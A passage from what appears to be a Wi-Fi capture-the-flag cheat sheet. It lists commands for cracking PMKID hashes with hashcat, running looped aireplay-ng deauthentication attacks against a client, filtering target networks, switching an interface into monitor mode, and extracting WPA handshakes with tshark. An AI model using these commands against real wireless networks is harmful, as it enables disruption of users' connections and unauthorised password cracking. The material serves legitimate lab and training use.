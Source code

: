 Run `hashcat` to attempt to decrypt the PMK hash IDs.
```code
$ hashcat -m 16800 pmkidhash /usr/share/wordlists/cyberpunk.words --force
```

### wifite
[wifite](https://github.com/derv82/wifite2) is a tool that automates the process. Follow the instructions to cheat.

## Quick & Useful

### Loops
Loop deauthentication attack to target client.
```code
$ while true; do sleep 10 && aireplay-ng -0 1 -e CTF_01 -c sta_mac wlan0mon; done
```

### airodump-ng regex
Filter target ESSIDs.
```code
$ airodump-ng wlan0mon --essid-regex "^(CTF_01).*$"
$ airodump-ng wlan0mon --essid-regex ^.*(one|two|three).*$"
$ airodump-ng wlan0mon --essid-regex "CTF_([0-9]{1,2}|W.*)"
```

### Configure interface
Set link up or down.
```code
$ ip link set wlan0mon down
$ ip link set wlan0mon up
```

Set modes monitor or managed.
```code
$ iw wlan0mon set type managed
$ iw wlan0mon set type monitor
```

Set interface channel
```code
$ iw dev wlan0mon set channel 6
```

### Wireshark & tshark
Using Wireshark to filter target packets.
```code
wlan.addr == target_mac && wlan.fc.type_subtype == 0x08 || wlan.fc.type_subtype == 0x05 || eapol
```

Using tshark to extract the handshakes.
```code
$ tshark -r filter.pcap -R "(wlan.fc.type_subtype == 0x08 || wlan.fc.type_subtype == 0x05 || eapol) && wlan.addr == 9C:EF:D5:FB:51:60" -2
```
